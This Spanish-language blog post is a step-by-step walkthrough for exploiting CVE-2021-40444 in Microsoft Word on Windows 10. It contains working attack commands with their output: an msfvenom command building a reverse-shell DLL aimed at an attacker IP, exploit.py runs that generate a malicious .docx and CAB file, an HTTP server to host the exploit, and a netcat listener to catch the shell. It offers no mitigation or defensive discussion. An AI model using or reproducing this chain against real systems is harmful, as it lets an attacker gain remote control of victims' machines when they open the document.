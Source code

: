 ```yaml
---
layout: single
title: POC CVE-2021-40444
excerpt: ""
date: 2021-09-18
classes: wide
header:
  teaser: /assets/images/POC-CVE-2021-40444/logo.jpg
  teaser_home_page: true
  icon: 
categories:
  - POC CVE
  - infosec
tags:
  -   CVE
  -   Video
---
```


# POC CVE-2021-40444

Hoy voy a enseñaros paso a paso como realizar este ataque, es una vulnerabilidad que ha salido hace muy poco, y básicamente lo que vamos a explotar es un fallo en Word Office, abriendo un documento malicioso vamos a ganar acceso al sistema fácilmente, actualmente el Windows Defender lo detecta, pero seguro que os gusta.

Para ello vamos a necesitar un sistema operativo de atacante (en mi caso Kali Linux) y un sistema operativo que queremos vulnerar (Windows 10), tendréis que instalar el Word Office para que funcione.

## 1º Paso

Nos descargaremos el contenido de este repositorio: [link](https://github.com/lockedbyte/CVE-2021-40444) 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444 master
❯ ls
 data   out   test             exploit.py     POC.mp4     REPRODUCE.md
 img    srv   deobfuscate.py   patch_cab.py   README.md
```

## 2º Paso

Vamos a borrar el archivo creado en test → calc.dll

Este repositorio lo que explota es ejecutar un comando en el sistema, en este caso abre una calculadora en el sistema a vulnerar, pero nosotros queremos ganar acceso.

Así que vamos a construirnos nuestra propia reverse shell con `msfvenom`

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f dll > calc.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 8704 bytes
```

Le damos permisos Full 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ chmod 777 calc.dll
                                                                                            

root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ ls -la
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:20:29 2021  .
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:18:21 2021  ..
.rwxrwxrwx root root 8.5 KB Sat Sep 18 11:20:34 2021  calc.dll
```

Ejecutamos el exploit de esta forma:

```bash
❯ python3 exploit.py generate test/calc.dll http://192.168.234.130
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is generate a malicious payload...

[ == Options == ]
        [ DLL Payload: test/calc.dll
        [ HTML Exploit URL: http://192.168.234.130

[*] Writing HTML Server URL...
[*] Generating malicious docx file...
  adding: [Content_Types].xml (deflated 75%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 48%)
  adding: docProps/core.xml (deflated 50%)
  adding: word/ (stored 0%)
  adding: word/webSettings.xml (deflated 57%)
  adding: word/settings.xml (deflated 63%)
  adding: word/_rels/ (stored 0%)
  adding: word/_rels/document.xml.rels (deflated 75%)
  adding: word/fontTable.xml (deflated 74%)
  adding: word/styles.xml (deflated 89%)
  adding: word/document.xml (deflated 85%)
  adding: word/theme/ (stored 0%)
  adding: word/theme/theme1.xml (deflated 79%)
[*] Generating malicious CAB file...
[*] Updating information on HTML exploit...
[+] Malicious Word Document payload generated at: out/document.docx
[+] Malicious CAB file generated at: srv/word.cab
[i] You can execute now the server and then send document.docx to target
```

Ya tenemos creado nuestro documento word con nuestro codigo malicioso

## 4º Paso

Ejecutamos el exploit de nuevo de esta forma para compartirnos un servicio web con python:

```bash
❯ python3 exploit.py host 80                                   
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is host HTML Exploit...
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y tambien nos ponemos en escucha:

`rlwrap nc -nlvp 443`

```bash
root@kali /home/kali/Desktop/POC
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

## 5º Paso

Pasamos el documento word que se ha creado en /out

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/out master*
❯ ls
 0-blank   document.docx
```

[sharingfile.mp4](/assets/images/POC-CVE-2021-40444/sharingfile.mp4)

Abrimos el documento Word y BOOM! :)

[ganningaccess.mp4](/assets/images/POC-CVE-2021-40444/ganningaccess.mp4)
